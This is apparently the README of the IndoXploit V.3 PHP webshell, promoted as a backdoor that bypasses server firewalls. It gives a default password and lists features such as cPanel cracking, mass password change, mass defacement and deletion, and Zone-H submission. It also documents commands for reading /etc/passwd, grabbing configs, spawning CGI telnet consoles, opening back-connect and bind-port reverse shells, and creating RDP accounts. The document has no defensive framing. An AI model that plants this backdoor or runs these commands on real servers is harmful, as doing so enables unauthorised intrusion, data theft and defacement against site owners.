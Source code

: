 # IndoXploit Webshell V.3

IndoXploit webshell V.3 is an PHP based webshell or backdoor with unique and usefull features. This webshell is originally coded by **agussetyar** from **IndoXploit Coders Team**. IndoXploit Shell has been mentioned repeatedly by the coder that it will make you easily bypass server security. With this shell you can comfortably bypass the server firewall from most secure servers. It is one of the hacker's most preferred backdoor shell.

---

## Screenshot
- login
![idx](https://raw.githubusercontent.com/linuxsec/indoxploit-shell/master/screenshot/indoxploit-login.PNG "Login Shell")
Default Password : **IndoXploit**

- interface
![idx](https://raw.githubusercontent.com/linuxsec/indoxploit-shell/master/screenshot/idx-interface.PNG "Shell Interface")
Webshell Interface

## Features
- Mass Password Change
- Fake Root
- Cpanel Crack
- Mass Deface/Delete File
- Zone-H Mass Submit

## How to Use
 - ***Read File***
~~~
 usage: rf [filename]
 example: rf /etc/passwd
~~~

 - Spawn File/Tools 
 ~~~
 usage: spawn [name]
~~~

[name]
- Adminer (adminer)
- WebConsole (webconsole)
- CGI Telnet 1 (cgitelnet1)
- CGI Telnet 2 (cgitelnet2)
- PHPINFO (phpinfo)

 example:
~~~
 spawn adminer
 spawn webconsole
 spawn cgitelnet1
~~~

- ***Jumping***
~~~
usage: jumping
~~~

- ***Config Grabber***
~~~
usage: idxconfig
~~~

 - ***Symlink***
 ~~~
 usage: symlink
~~~

 - ***Reverse Shell***
 
***[Back Connect]***
~~~
usage: rvr bc [IP] [PORT] [TYPE]
~~~
Example:
~~~
rvr bc 127.0.0.1 1337 bash
rvr bc 127.0.0.1 1337 perl
~~~

***Bind Port***
~~~
usage: rvr bp [PORT] [TYPE]
~~~
Example:
~~~
rvr bp 1337 perl
~~~

 - ***KRDP - Create RDP Account (for windows server only)***
 ~~~
 usage: krdp
~~~
 - ***Logout From Shell***
 ~~~
 usage: logout
~~~
 - ***Kill Backdoor***
~~~
usage: killme
~~~

 ## Contribute
 Drop an email at **shu@indoxploit.or.id** and tell us what your suggestions about how to improve this webshell.

